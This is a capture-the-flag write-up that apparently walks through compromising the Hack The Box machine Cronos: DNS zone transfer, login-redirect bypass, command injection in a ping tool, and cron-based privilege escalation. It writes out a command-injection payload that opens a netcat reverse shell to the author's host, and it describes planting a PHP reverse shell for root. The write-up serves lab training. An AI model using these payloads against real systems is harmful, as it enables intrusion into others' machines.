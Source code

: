 ```yaml
---
title:     "Hack The Box - Cronos"
tags: [linux,medium,domain,cron,redirection]
categories: HackTheBox OSCP-Like
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/1.png)

We are going to pwn Cronos from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/11>


Like always begin with our Nmap Scan.

## Nmap Scan Results

```
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http


PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.2 - 4.9 (92%), Linux 4.2 (92%), Linux 4.4 (92%), Linux 4.8 (92%), Linux 4.9 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP Enumeration

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/2.png)
Its an apache2 default webpage.

I edited my ``/etc/hosts`` file to add the machine’s name ``cronos.htb`` and then revisit the page to check it shows any different page.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/3.png)

The server is running ``laravel framework`` every page leads to ``laravel`` releated things.
So I started checking other ports.

## Port 53 Enumeration

Which is ``domain`` may be we can do a zone transfer for that domain. For that we can use a tool named ``dig``.

> dig - DNS lookup utility

By using this we can find other domains available for the webpage. 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/4.1.png)

> AXFR, is a type of DNS transaction. It is one of the many mechanisms available for administrators to replicate DNS databases across a set of DNS servers.

Got some new domains, So I added those new entries to ``/etc/hosts``

Started from ``admin.cronos.htb``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/4.png)
Its an Login page!!

Lets bruteforce the directories using ``Gobuster`` to check if anything useful for us.

## Gobuster Results
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://admin.cronos.htb
[+] Threads:        10
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2020/01/16 20:34:34 Starting gobuster
===============================================================
 /index.php (Status: 200)
 /welcome.php (Status: 302)
 /logout.php (Status: 302)
 /config.php (Status: 200)
 /session.php (Status: 302)
 /server-status (Status: 403)
```

## Getting Initial Shell

When I try to enter ``/welcome.php`` it redirects to ``/login.php`` , So we can stop the redirection and see what that page leads us.<br/>
We can use ``intruder`` from burp to do this process.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/5.png)<br/>
All we need to do is change ``302 Found`` to ``200 Ok``.

For that open ``Proxy -> Options -> Match and Replace``<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/6.png)

``/welcome.php`` it leads to a page where it has a tool to ping.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/7.png)

So I tried some normal command injections and  ``&&`` helps to exec another commands.

`` 10.10.14.8 && rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 1234 >/tmp/f ``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/8.png)<br/>
We got the shell

While checking for any useful files in ``/var/www`` found ``/admin.php/config.php``  and its give me ``mysql`` credentials
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/9.png)

I logged in with them to check any user credentials available and found a hash for admin but it takes some time to crack the hash.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/10.png)

## Privilege Escalation

I uploaded my Enumeration Script to the box and found there is a cronjob running so I uploaded ``pspy`` to see whats actually going on.

>pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/11.png)

We have write permission on the on the folder ``/var/www/laravel/``and its running as php so we can create a file with the same name ``artisan`` and upload our php reverse shell.

I created ``artisan`` file in my machine with php reverse shell and uploaded to the box.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/12.png)

Started my Listener and waited for the cronjob to execute my reverse shell
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-cronos/13.png)

Got Root!!